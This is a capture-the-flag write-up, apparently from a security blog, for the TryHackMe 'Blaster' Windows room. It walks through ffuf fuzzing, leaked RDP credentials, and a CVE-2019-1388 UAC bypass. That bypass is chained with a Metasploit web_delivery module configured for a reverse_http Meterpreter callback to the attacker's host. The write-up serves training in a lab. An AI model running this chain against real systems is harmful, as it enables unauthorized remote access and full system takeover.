






# NULLSECURE - FROM NULL TO ROOT

**Video:** [Watch on YouTube](#)

---

# Blaster - TryHackMe | Full Walkthrough

## Overview

**Room:** Blaster
**Difficulty:** Easy
**OS:** Windows
**Category:** Privilege Escalation / UAC Bypass

Blaster is a Windows machine themed around *Ready Player One*, and continues directly from the Ice walkthrough in this series. The path to root goes through directory fuzzing to leak a set of RDP credentials, followed by a UAC bypass via **CVE-2019-1388** to escalate from a standard user to `NT AUTHORITY\SYSTEM`.

**Tools used:** Threader3000, Nmap, ffuf, xfreerdp3, Metasploit Framework (`web_delivery`)

---

## Recon

Started with a fast port scan using Threader3000 to identify open ports before running a full service/version scan.

```bash
threader3000
```

**Open ports:**
```
80
3389
```

Followed up with Nmap for service and default script scanning on the discovered ports:

```bash
nmap -sV -sC -p80,3389 <ip>
```

Port 80 revealed a web server, and 3389 confirmed RDP was open — pointing toward a web-based credential leak followed by an RDP foothold.



---

## Content Discovery

Fuzzed the web root with ffuf using a large directory wordlist to enumerate hidden paths:

```bash
ffuf -u http://10.65.133.0/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
```

This uncovered a `/retro` directory.


Browsing the `/retro` directory led to a page referencing a user named **wade**.


The page content was themed around *Ready Player One*, which led to further browsing of related posts/pages on the site.



Digging through the page content turned up a comment left by the user, effectively leaving themselves a spelling reminder for their password:

> Leaving myself a note here just in case I forget how to spell it: **parzival**



---

## Exploitation

With a valid username (`wade`) and a leaked password (`parzival`), attempted authentication over RDP:

```bash
xfreerdp /compression /cert:ignore +auto-reconnect /v:<ip> /u:wade /p:parzival +clipboard
```

The credentials were valid, granting a full RDP session as `wade`.



From the desktop, retrieved the first flag from `user.txt`.

**User flag:** `THM{REDACTED}`

---

## Post-Exploitation

While looking around the desktop for privilege escalation opportunities, found an executable named **hhupd.exe** left behind by the user. Researching the file pointed to a known Windows privilege escalation vector:

- **CVE-2019-1388** — UAC bypass via the Windows Certificate Dialog, triggered through `hhupd.exe`
- Reference used: [CVE-2019-1388 - Windows Privilege Escalation through UAC](https://sotharo-meas.medium.com/cve-2019-1388-windows-privilege-escalation-through-uac-22693fa23f5f)

The plan was to weaponize this UAC bypass to drop into a Metasploit Meterpreter session rather than a plain elevated shell, using the `web_delivery` module.

---

## Privilege Escalation

Set up the `web_delivery` exploit module in Metasploit to generate a staged PowerShell payload:

```bash
msfconsole -q

search web_delivery
use 5

exploit(multi/script/web_delivery) > options
exploit(multi/script/web_delivery) > set LHOST tun0
exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_http
exploit(multi/script/web_delivery) > show targets
```

```
Exploit targets:
=================

    Id  Name
    --  ----
    0   Python
    1   PHP
=>  2   PSH
    3   Regsvr32
    4   pubprn
    5   SyncAppvPublishingServer
    6   PSH (Binary)
    7   Linux
    8   Mac OS X
```

```bash
exploit(multi/script/web_delivery) > set target 2
exploit(multi/script/web_delivery) > options
exploit(multi/script/web_delivery) > exploit
```

This generated a base64-encoded PowerShell one-liner tied to the listener.



Following the CVE-2019-1388 exploit chain, `hhupd.exe` was run as administrator to trigger the vulnerable Certificate Dialog box, which was used to spawn an elevated `cmd.exe`. The generated PowerShell payload was then executed inside that elevated prompt, calling back to the Metasploit listener.



The callback landed a Meterpreter session running as `NT AUTHORITY\SYSTEM`, confirming the UAC bypass had fully escalated privileges. From there, the second flag was retrieved from `root.txt` on the Administrator's desktop.

**Root flag:** `THM{REDACTED}`

---

## Conclusion

| Item | Details |
|---|---|
| Room | Blaster |
| Difficulty | Easy |
| OS | Windows |
| Initial Foothold | Leaked RDP credentials (`wade:parzival`) found via directory fuzzing |
| Privilege Escalation | CVE-2019-1388 (UAC Bypass via `hhupd.exe`) chained into Metasploit `web_delivery` |
| Final Access | `NT AUTHORITY\SYSTEM` |
| Flags Captured | `user.txt`, `root.txt` |

---

## Attack Chain Summary

`Threader3000` → `Nmap (-sV -sC)` → `ffuf` fuzzing reveals `/retro` → user **wade** identified → *Ready Player One* themed post leaks password **parzival** → RDP login (`wade:parzival`) → `user.txt` captured → `hhupd.exe` found on desktop → CVE-2019-1388 researched → Metasploit `web_delivery` (PSH payload) → UAC bypass executes payload as admin → Meterpreter session as `NT AUTHORITY\SYSTEM` → `root.txt` captured

---

*This writeup documents a walkthrough of a TryHackMe lab environment for educational purposes only. All actions were performed in an authorized, isolated lab setting. Do not apply these techniques against systems you do not own or lack explicit permission to test.*

**A1GCH ⚔ NullSecure**
